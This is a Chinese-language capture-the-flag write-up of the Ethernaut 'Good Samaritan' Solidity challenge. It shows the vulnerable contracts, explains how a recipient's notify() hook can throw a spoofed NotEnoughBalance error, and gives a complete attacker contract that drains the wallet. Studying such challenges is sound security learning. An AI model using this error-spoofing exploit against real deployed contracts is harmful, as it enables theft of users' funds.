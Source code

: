 # Good Samaritan

## 题目

要求：GoodSamaritan的wallet有很多钱，将其设置为0

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10**6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if(msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

## 分析

题目的大概意思是：有一种代币coin，然后GoodSamaritan拥有一个钱包，这个钱包存有很多coin。GoodSamaritan很慷慨，可以给别人钱，但是每次只能给10元，我们得想办法一次性偷走它的所有钱。

这个向GoodSamaritan要钱的方法是一次申请10元，如果失败，则取走所有钱。本意是不够10元的时候拿走剩余的钱。那么我们可以在`donate10()`直接给他报错进入catch，就可以拿走所有钱了。

```solidity
function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
```

如果余额大于10元，那么就会转账10元

```solidity
    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }
```

进入到coin，在转账的时候，会调用转账目标地址的notify()函数，这是一个钩子函数，挺常见的。但是这里就存在大问题了，典型的未知合约位置方法实现，`notify()`可控。如果我们在notify中直接触发一个error，那么在`requestDonation()`中就会捕获到错误，然后转出剩下所有的钱，注意，报错的内容要是`NotEnoughBalance()`。

```solidity
function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
```

那么实现可以是下面这样。注意了，当我们调用`transferRemainder()`转走所有coin的时候也会调用钩子函数，因此需要判断条件，不能直接revert。

```solidity
function notify(uint256 amount) external pure {
    if (amount == 10) {
        revert NotEnoughBalance();
    } 
  }
```

## 解题

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.17;

interface IGoodSamaritan {
  function requestDonation() external returns (bool);
} 

contract attacker {  

  error NotEnoughBalance();

  function attack(address _addr) external { 
     IGoodSamaritan(_addr).requestDonation();
  }

  function notify(uint256 amount) external pure {
    if (amount == 10) {
        revert NotEnoughBalance();
    } 
  }
}
```

攻击流程

![image-20230719201923175](27.Good Samaritan/image-20230719201923175.png)

成功

![image-20230719201509325](27.Good Samaritan/image-20230719201509325.png)
